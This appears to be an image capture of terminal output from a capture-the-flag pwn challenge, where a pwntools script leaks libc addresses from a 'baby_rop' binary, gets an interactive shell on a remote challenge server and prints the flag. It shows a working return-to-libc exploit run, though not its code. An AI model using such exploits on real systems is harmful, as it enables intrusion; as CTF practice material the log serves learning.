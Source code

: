 ```
$ python3 pwn_solve.py REMOTE=1
[*] '/home/vagrant/Downloads/pwn_baby_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './pwn_baby_rop'
[+] Opening connection to 34.141.93.151 on port 32751: Done
/home/vagrant/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
puts:   0x7f3ee58555a0
[*] '/home/vagrant/Downloads/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:   0x7f3ee57ce000
system: 0x7f3ee5823410
[*] Switching to interactive mode
$ ls -l
total 20
-rwxr-xr-x 1 root root    70 May 13  2020 flag
-rwxr-xr-x 1 root root 14520 May 13  2020 pwn
$ cat flag
ECSC{c6e202f0d761b296c2fe9dbebc5169a892833cffa65399fee585b532eca3fcac}
```

